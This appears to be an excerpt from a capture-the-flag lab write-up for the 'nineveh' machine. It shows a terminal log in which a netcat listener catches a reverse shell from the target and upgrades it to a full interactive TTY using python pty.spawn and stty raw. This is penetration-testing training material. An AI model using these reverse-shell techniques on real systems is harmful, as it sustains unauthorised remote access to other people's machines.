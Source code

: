 ![](images/25.png)

[``Method 3: Upgrading from netcat with magic``](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method3upgradingfromnetcatwithmagic)

```sh
root@kali:~/nineveh# nc -nlvp 8090
listening on [any] 8090 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.43] 38948
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@nineveh:/var/www/html/department$ ^Z
[1]+  Stopped                 nc -nlvp 8090
root@kali:~/nineveh# echo $TERM
xterm-256color
root@kali:~/nineveh# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/nineveh# stty raw -echo
root@kali:~/nineveh# nc -nlvp 8090

www-data@nineveh:/var/www/html/department$ stty rows 51 columns 204
www-data@nineveh:/var/www/html/department$
```
